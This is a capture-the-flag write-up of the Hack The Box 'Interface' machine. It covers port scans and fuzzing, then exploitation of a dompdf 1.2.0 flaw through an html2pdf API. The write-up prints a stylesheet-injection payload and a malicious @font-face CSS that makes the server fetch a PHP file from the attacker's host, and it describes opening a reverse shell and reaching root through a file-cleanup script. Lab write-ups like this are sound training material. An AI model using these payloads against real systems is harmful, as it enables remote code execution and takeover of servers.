

# Interface

This is the writeup for Interface machine from Hack The Box.

# Reconnainssance

Fisrt, we start executing a full port scan on the host.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/interface]
└──╼ [★]$ sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.10.11.200

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Now we execute a port scan only on the open ports found.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/interface]
└──╼ [★]$ sudo nmap -vv -A -Pn -p 22,80 -oA nmap/interface 10.10.11.200

PORT   STATE SERVICE REASON         VERSION                                                                                                                                                   
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)                                                                                              
| ssh-hostkey:                                                                                                                                                                                
|   2048 7289a0957eceaea8596b2d2dbc90b55a (RSA)                                                                                                                                               
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDsUhYQQaT6D7Isd510Mjs3HcpUf64NWRgfkCDtCcPC3KjgNKdOByzhdgpqKftmogBoGPHDlfDboK5hTEm/6mqhbNQDhOiX1Y++AXwcgLAOpjfSExhKQSyKZVveZCl/JjB/th0YA12XJXECXl5GbNFt
xDW6DnueLP5l0gWzFxJdtj7C57yai6MpHieKm564NOhsAqYqcxX8O54E9xUBW4u9n2vSM6ZnMutQiNSkfanyV0Pdo+yRWBY9TpfYHvt5A3qfcNbF3tMdQ6wddCPi98g+mEBdIbn1wQOvL0POpZ4DVg0asibwRAGo1NiUX3+dJDJbThkO7TeLyROvX/kost
PH                                                                                                                                                                                            
|   256 01848c66d34ec4b1611f2d4d389c42c3 (ECDSA)                                                                                                                                              
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrQxMOFdtvAa9AGgwirSYniXm7NpzZbgIKhzgCOM1qwqK8QFkN6tZuQsCsRSzZ59+3l+Ycx5lTn11fbqLFqoqM=                            
|   256 cc62905560a658629e6b80105c799b55 (ED25519)                                                                                                                                            
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPtZ4bP4/4TJNGMNMmXWqt2dLijhttMoaeiJYJRJ4Kqy                                                                                                            
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)                                                                                                                                     
|_http-favicon: Unknown favicon MD5: 21B739D43FCB9BBB83D8541FE4FE88FA                                                                                                                         
| http-methods:                                                                                                                                                                               
|_  Supported Methods: GET HEAD                                                                                                                                                               
|_http-title: Site Maintenance                                                                                                                                                                
|_http-server-header: nginx/1.14.0 (Ubuntu)
```

Accessing the webpage we got.



When we access the source code of the 404 not found page, by trying access /index.php or /index.html, we got some JS files. Searching for possible URLs on the source code of the main JS file, we got.


Send the request /api endpoint to our BurpSuite we could confirm that the backend server is Next.js.


When we tried to request the / endpoint on BurpSuite, we got some information on the header response.


We added this domains on our local host’s file.


Accessing the new found subdomain.


On burp, we changed the request method for POST and, knowing that JS webapps normally use JSON files, we change the Content-Type header on our request to application/json and save it in a text file in order to fuzzing the parameter name.


# Enumeration

Fuzzing the application for some directories, we got.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/interface]
└──╼ [★]$ ffuf -c -u http://prd.m.rendering-api.interface.htb/FUZZ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -mc all -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0
________________________________________________

 :: Method           : GET
 :: URL              : http://prd.m.rendering-api.interface.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 0
________________________________________________

[Status: 404, Size: 50, Words: 3, Lines: 1, Duration: 171ms]
    * FUZZ: api

[Status: 403, Size: 15, Words: 2, Lines: 2, Duration: 170ms]
    * FUZZ: .

[Status: 403, Size: 15, Words: 2, Lines: 2, Duration: 170ms]
    * FUZZ: vendor
```

Fuzzing the /api endpoint, we got.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/interface]
└──╼ [★]$ feroxbuster -u http://prd.m.rendering-api.interface.htb/api -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -m GET,POST 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://prd.m.rendering-api.interface.htb/api
 🚀  Threads               │ 50
 📖  Wordlist              │ /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET, POST]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        1l        3w       50c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404     POST        1l        3w       50c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
422     POST        1l        2w       36c http://prd.m.rendering-api.interface.htb/api/html2pdf
```

Accessing it on our Burp Suite, we got.


Now, we save the file and put the FUZZ word where the parameter name is.


Fuzzing the parameter, we got.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/interface]
└──╼ [★]$ ffuf -c -request html2pdf.req -request-proto http -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt -mc all -fs 36

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0
________________________________________________

 :: Method           : POST
 :: URL              : http://prd.m.rendering-api.interface.htb/api/html2pdf
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Connection: close
 :: Header           : Content-Type: application/json
 :: Header           : Host: prd.m.rendering-api.interface.htb
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : DNT: 1
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Data             : {
        "FUZZ":"</b>th3g3ntl3m4n</b>"
}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 36
________________________________________________

[Status: 200, Size: 1139, Words: 116, Lines: 77, Duration: 187ms]
    * FUZZ: html
```

Back to Burp Suite and change the parameter name to html, we got.


We execute the curl command in the URL and get the pdf document.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/interface]
└──╼ [★]$ curl -i -s -k -X $'POST' \
    -H $'Host: prd.m.rendering-api.interface.htb' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'DNT: 1' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -H $'Content-Type: application/json' -H $'Content-Length: 36' \
    --data-binary $'{\x0d\x0a\x09\"html\":\"</b>th3g3ntl3m4n</b>\"\x0d\x0a}' \
    $'http://prd.m.rendering-api.interface.htb/api/html2pdf' -o test.pdf
```

Removing the part of the request in the test.pdf file, we got the PDF file downloaded.


Using exiftool, we get how this PDF file was generated.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/interface]
└──╼ [★]$ exiftool test.pdf 
ExifTool Version Number         : 12.16
File Name                       : test.pdf
Directory                       : .
File Size                       : 1139 bytes
File Modification Date/Time     : 2023:05:18 19:29:06-04:00
File Access Date/Time           : 2023:05:18 19:29:06-04:00
File Inode Change Date/Time     : 2023:05:18 19:29:06-04:00
File Permissions                : rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 1
Producer                        : dompdf 1.2.0 + CPDF
Create Date                     : 2023:05:18 23:25:48+00:00
Modify Date                     : 2023:05:18 23:25:48+00:00
```

Searching on Google for some public exploit for this version, we got.

[https://github.com/positive-security/dompdf-rce](https://github.com/positive-security/dompdf-rce)

Searching more, we got this article about the vulnerability.

[From XSS to RCE (dompdf 0day) | Positive Security](https://positive.security/blog/dompdf-rce)

Send this payload `<link rel=stylesheet href='[http://10.10.14.158/test.css](http://10.10.14.158/test.css)'>` on our Burp Suite and open a listener on port 80 on our local machine, we got.


Checking our netcat listener.

```bash
─[us-free-3]─[10.10.14.158]─[th3g3ntl3m4n@parrot]─[~/htb/machines/interface]
└──╼ [★]$ sudo nc -vnlp 80
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.11.200.
Ncat: Connection from 10.10.11.200:48048.
GET /test.css HTTP/1.0
Host: 10.10.14.158
Connection: close
```

# Exploitation

We create a file named exploit.css

```bash
@font-face {
   font-family:'TestFont';
   src:url('http://10.10.14.158/exploit_font.php');
   font-weight:'normal';
   font-style:'normal';
 }
```

We change the file `font.php` for.


We generated the md5sum for our malicious URL.


And get the exploit_font.php from the github link from exploit. Send the request from Burp Suite.


Checking our python http server.


And checking the response on Burp Suite.


Now on cmd parameter, we write our bash tcp reverse shell.


Checking our pwncat listener.


# Privilege Escalation

Running the pspy tool we discover there is running a bash script that cleanup the dompdf generated files.

```bash
#! /bin/bash
cache_directory="/tmp"
for cfile in "$cache_directory"/*; do

    if [[ -f "$cfile" ]]; then

        meta_producer=$(/usr/bin/exiftool -s -s -s -Producer "$cfile" 2>/dev/null | cut -d " " -f1)

        if [[ "$meta_producer" -eq "dompdf" ]]; then
            echo "Removing $cfile"
            rm "$cfile"
        fi

    fi

done
```

First, we create our revershell.


We create a file called clean-me, set the Producer parameter with the exiftool in order to execute our shell when the script will be executed and cp this file to `/tmp` directory.


Checking back our pwncat listener we were able to get a reverse shell as user root.

